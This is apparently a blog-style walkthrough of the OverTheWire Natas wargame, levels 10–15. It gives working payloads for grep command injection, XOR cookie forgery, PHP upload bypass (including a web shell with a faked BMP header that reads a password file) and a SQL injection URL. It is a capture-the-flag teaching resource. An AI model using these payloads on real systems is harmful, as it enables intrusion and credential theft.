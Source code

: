 ## Level 10 - 11
This is pretty smart. Since filters have been added to prevent exploitation of linux scripting operators, we're instead going to exploit the use of the grep command. Since grep can accept multiple files, we need to guess a character that exists in the password and ignore all the hits it finds in the dictionary document. Fortunately, since we know the passwords tend to be a long alphanumeric string, we can try a bunch of numbers to get rid of most dictionary entries.

`8 /etc/natas_webpass/natas11`

## Level 11 - 12
Let's start by inspecting the code in our own editor. Line 67 clearly highlights our goal: we want the "showpassword" key of the cookie data to have value "yes".

Very imporant to note that the default data on line 13 is set as a cookie on line 55. This keeps the background color persistent between sessions.

This key-value pair for "showpassword" is only set at line 35, which is subject to a bunch of conditional statements. We can make the following observations:
- we have to input a valid regex-matching bgcolor in the form to trigger the code (line 34).
- Our cookie "data" key has to be manipulated through the encoding to have the properties we desire.

Now for the big problem: we need to crack the key on the XOR encoding. However, we can execute a known plaintext attack here because we can access our cookies to know what the cipher of our default data is.

The cookie has "data": "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSRwh6QUcIaAw%3D". From the function in line 43, this is the default data > json_encode > xor_encrypt > base64_encoded. So to use it to reverse engineer the XOR key, we're going to have to base64_decode it first.

The key will be repeating due to the modulo used in the XOR encoding, so using the smallest repeating sequence, we can now generate a fake cookie base64 encoded data with field "showpassword": "yes".

## Level 12 - 13
We are immediately greeted with a file upload. Let's do a bit of testing! I found that the form does not check for the extension of the file being uploaded, so this suggests a file upload vulnerability where I can upload a script for the server the execute instead of a picture. Let's start by breaking down the code:

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
```
genRandomString() generates a 10-character random string from lowercase letters and numbers 0-9.

```php
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```

makeRandomPath($dir, $ext) creates a file path of the concatenated $dir, a genRandomString and a file $ext.
It keeps trying random strings until it finds one that is available. 


```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```
This wrapper function creates the extension that we append in `makeRandomPath`. We find more information on the constant `PATHINFO_EXTENSION` [here](https://www.php.net/manual/en/fileinfo.constants.php). If we observe the input form at the bottom, we see that no matter what file we submit, a .jpg will be appended to the end. Therefore this constant will probably evaluate to a .jpg or .jpeg string literal, since it is based on the MIME type of the file we upload.

Finally, we move on to observing the script body: 
```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
// Do nothing, end of PHP code.
?> 

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
```

So we make a `$target_path` in the /upload directory with a generated 10-digit filename and the coerced .jpg extension. This also only succeeds if our file is successfully uploaded with <1kB size. 

Now let's define our objectives:
- We want to upload a script smaller than 1kB in size to fetch us the password of the password file located in `/etc/natas_webpass/natas13`.
- We need to find a way of working around the .jpg extension, so that the server will execute it as a script.

Let's start by making a basic script.
```php
<?php
echo 
?>
```

Let's work on getting a basic hello world script to run on the server. We observed that the `.jpg` extension is created by the `pathinfo` function, so in fact, we can get past it as long as we get the form submission to have the extension we desire. Maybe we can do this by intercepting the http request on its way to the server. Let's start up Burp.

We see that the form submits the file using a POST request in the body. Thankfully, since this isn't HTTPS, we can tamper freely. You'll see a random generated name for the file with the .jpg suffix. Change that to .php, and the upload should succeed, allowing us to run the file with the nice link they provided us with, giving us the password.

## Level 13 - 14
This looks like the same challenge as before, but as they hint, we now expect some kind of guard to check that our file is an image. Let's inspect the code. We see that this is implemented with a single additional conditional clause, and nothing more.

```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
```

The [documentation](https://www.php.net/manual/en/function.exif-imagetype.php) for the `exif_imagetype()` function reveals that it returns some enumerated integer constants to represent the type of image it detected. We also see that it works by reading the first bytes of an image and checking its signature. So, we need some way to get this function to return a non-falsy value.

We could spoof some image types by adding a suitable magic number to the start of our PHP script source, but the easiest one is to notice that `exif_imagetype()` accepts BMP (bitmap) images, which all begin with the simple ASCII characters "BMP". This also makes the password output more readable as we know everything output after the BMP characters are our password. Therefore our script looks like this:
```php
BMP

<?php
echo file_get_contents("/etc/natas_webpass/natas14")
?>
```

Just following the same steps as we did before (spoofing the form-submitted file extension) will get us our password again.

## Level 14 - 15
Looks like a straightforward SQL injection! Looking at the code, we see a mysql query as expected. We first notice that all we have to do to get our password is execute a query that returns any entry:
```php
if(mysql_num_rows(mysql_query($query, $link)) > 0) {
    echo "Successful login! The password for natas15 is <censored><br>";
}
```

It's useful to note that the form is submitted by POST, so we can't see the query string. We note that there is a little bit of code that we can exploit to fine-tune our query:
```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}
```

So, if we do our own GET request instead of the POST submitted by the form and add the `debug` parameter, we can see exactly which statement of ours gets executed. Finally, let's look at the query:
```sql
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
http://natas14.natas.labs.overthewire.org/?debug&username=1&password=1%22+UNION+SELECT+*+from+users+where+%221%22+=+%221
a" union select * from users where "1" = "1